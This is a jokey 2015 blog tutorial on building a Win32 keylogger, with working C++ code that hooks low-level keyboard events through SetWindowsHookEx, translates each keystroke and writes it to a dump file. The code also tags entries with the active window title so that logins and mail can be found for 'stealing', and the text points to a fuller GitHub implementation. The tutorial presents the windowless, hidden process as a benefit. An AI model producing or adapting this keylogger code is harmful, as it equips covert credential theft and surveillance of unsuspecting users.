 /*
Title: Win32 Keylogging for The Common People
Description: Writing a Win32 keylogger in several simple steps. I don't know how many. I didn't count them. Shut up, I'm lazy.
Author: tracer
Date: 2015/05/10
*/

Man, I bet making a key-logger is hard. It probably involves assembler and Win32 API witchcraft and sacrificing chickens and shit. Special candles made from rendered baby-fat and arranged in arcane geometries.

Nope. Turns out the Win32 API gives you a load of functions to do this out of the box. This is going to be a quick overview of what you can do with what you're given and to go into some of the idiosyncrasies of the API. If you've done any Win32 stuff before there shouldn't be many surprises. If you want more detail then please check out the full implementation on [Github](https://github.com/tracer-sec/shoulder_surfer).

## SetWindowsHookEx

Windows' hooking API, and in particular [SetWindowsHookEx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx), allows us to specify a callback function which is called on certain system events. There are several you can snag, but we're interested in WH_KEYBOARD_LL - Low-level keyboard events. Once we've set up a hook for WH_KEYBOARD_LL events our callback will get hit every time a key event happens. For greater details see the MSDN page for [LowLevelKeyboardProc](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644985%28v=vs.85%29.aspx).

As stated in the documentation we also need a message pump for this to work, but we don't want the hassle of a window. And that's fine - we can create our message pump manually. This means we'll still be a fully-functioning Win32 application, but you'll have to look at the task manager or similar tool to see that our process is actually running. A handy fringe benefit.

With that in mind, here's the guts of the operation.

~~~~~~
LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    // DO MAGICAL THINGS HERE

    return ::CallNextHookEx(nullptr, code, lParam, wParam);
}

int WINAPI WinMain(
    HINSTANCE instance, 
    HINSTANCE prevInstance,
    LPSTR commandLine,
    int show
)
{
    HHOOK hookHandle = ::SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardHook, nullptr, 0);

    MSG message;
    while (::GetMessage(&message, nullptr, 0, 0) > 0)
    {
        if (message.message == WM_QUIT)
            break;

        ::TranslateMessage(&message);
        ::DispatchMessage(&message);
    }

    ::UnhookWindowsHookEx(hookHandle);

    return 0;
}
~~~~~~

## Making it do something

So now we're getting our function called every time a key is pressed. Happy days. But our callback doesn't do anything yet. Let's take that keypress and put it into a file for, uh, safe keeping. Our callback now looks like this:

~~~~~~
wofstream dump;
HKL keyboardLayout;

void GetActualKeyboardState(unsigned char *keyboardState)
{
    for (int i = 0; i < 256; ++i)
        keyboardState[i] = static_cast<unsigned char>(::GetKeyState(i));
}

LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    if (code == HC_ACTION && (wParam == WM_KEYDOWN))
    {
        LPKBDLLHOOKSTRUCT data = reinterpret_cast<LPKBDLLHOOKSTRUCT>(lParam);

        unsigned char keyboardState[256];
        GetActualKeyboardState(keyboardState);

        wchar_t buffer[16];
        memset(buffer, 0, sizeof(buffer));

        int result = ::ToUnicodeEx(data->vkCode, data->scanCode, keyboardState, buffer, 16, 0, keyboardLayout);
        if (result > 0)
        {
            dump << buffer;
            dump.flush();
        }
    }

    return ::CallNextHookEx(nullptr, code, wParam, lParam);
}
~~~~~~

You'll notice we've got another function (GetActualKeyboardState) to get the current state of the keyboard. We can't use the usual Win32 function GetKeyboardState here - it simply doesn't work. I suspect it's using GetAsyncKeyState internally, because that doesn't work inside low-level keyboard hooks since the hook is fired before the async keyboard state is updated. I promise I'm not making this complicated just for the fun of it.

Additionally we have two global variables - keyboardLayout and dump. Both of these are set up in our WinMain function. I've not gone into the details of either, but dump is our output stream and keyboardLayout is for getting the current locale to help convert scan codes into actual keyboard input. It's pretty straight-forward and there's no real mystery there.

## Next steps

Welp, now we're logging all of the keypresses that happen on our target machine. Which is great. It's *great*. But it's not that useful. Our output file is just a jumble of characters, with no way of knowing which ones are relevant and which are just the cat walking on the keyboard.

So the next change we're going to make to the system is to add some more structure to our dump file. The first change is basic, but important: we're going to keep track of the current window title. This means we can do a search in the output file for keywords like "login" or "mail", and have a better chance of finding something worth stealing. **Borrowing**. I meant borrowing. 

Here's our updated callback.

~~~~~~
LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    static wstring currentTitle;

    if (code == HC_ACTION && (wParam == WM_KEYDOWN))
    {
        HWND currentWindow = GetForegroundWindow();
        wchar_t title[512];
        GetWindowText(currentWindow, title, 512);
        wstring newTitle = wstring(title);

        if (newTitle != currentTitle)
        {
            dump << endl << L"----------------------------" << endl;
            dump << L"Active window: " << newTitle.c_str() << endl;
            currentTitle = newTitle;
        }

        LPKBDLLHOOKSTRUCT data = reinterpret_cast<LPKBDLLHOOKSTRUCT>(lParam);

        unsigned char keyboardState[256];
        GetActualKeyboardState(keyboardState);

        wchar_t buffer[16];
        memset(buffer, 0, sizeof(buffer));

        int result = ::ToUnicodeEx(data->vkCode, data->scanCode, keyboardState, buffer, 16, 0, keyboardLayout);
        if (result > 0)
        {
            dump << buffer;
            dump.flush();
        }
    }

    return ::CallNextHookEx(nullptr, code, wParam, lParam);
}
~~~~~~

It's still fairly uncomplicated, but that's the idea. There are a few things can still thwart you. The big one is form autocompletion. But it's cool. We've got a plan B . . . *in a future episode*. The next is that windows running in an admin context won't pass their keyboard events to our hook if it's running in user mode, which it likely is. Just stuff to bear in mind.

## Wrap it up, nerd. I have things to do

K.

Win32 keylogging is easy. That's how you do it.

You can find a more fully-fledged implementation on [Github](https://github.com/tracer-sec/shoulder_surfer). But "fully-fledged" is a bit of a misnomer. The extra bits are mostly glue.

If you have any comments then please post on the mailing list, or let us know on IRC!


